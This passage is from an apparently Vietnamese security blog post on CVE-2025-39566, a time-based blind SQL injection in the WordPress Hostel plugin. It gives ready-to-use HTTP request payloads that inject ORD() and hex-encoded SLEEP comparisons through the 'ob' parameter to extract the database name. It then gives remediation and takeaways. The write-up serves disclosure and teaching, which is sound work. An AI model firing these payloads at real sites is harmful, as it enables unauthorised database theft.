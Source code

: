 Kết quả: thời gian phản hồi bị delay => SQL Injection thành công.

### Dump Data from Database

**Bypass `'` using ORD()**:

Để dump dữ liệu của database ta cần thử để lấy ký tự đầu tiên của **database name**.

Do `sanitize_text_field()` loại bỏ `'`, ta không dùng được payload so sánh trực tiếp. Thay vào đó dùng `ORD()` để so sánh ký tự theo ASCII:

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(ORD(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Thành công bypass => có thể trích xuất tên database.

{{< figure src="ord_bypass.png" alt="ORD bypass" caption="ORD bypass" >}}

**Bypass `'` using Hex encoding (extend)**

Ngoài `ORD()` ta có thể sử dụng **Hex encoding** để bypass

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=past&ob=tB.status,(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,SLEEP(5),0))&dir=ASC HTTP/1.1
```

Thành công bypass => có thể trích xuất tên database.

{{< figure src="ord_bypass.png" alt="Hex encoding bypass" caption="Hex encoding bypass" >}}

## Remediation

Cập nhật lên **Hostel Plugin v1.1.5.7** hoặc mới hơn

## Takeaways

* `sanitize_text_field()` ≠ chống **SQL Injection**
* Cần phân biệt rõ: lọc input cho HTML vs cho SQL

## References

[SQL Injection Cheat Sheet – PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Hostel Plugin <= 1.1.5.6 is vulnerable to SQL Injection - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-1-1-5-6-sql-injection-vulnerability?_s_id=cve)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-09-21-cve-2025-39566/  

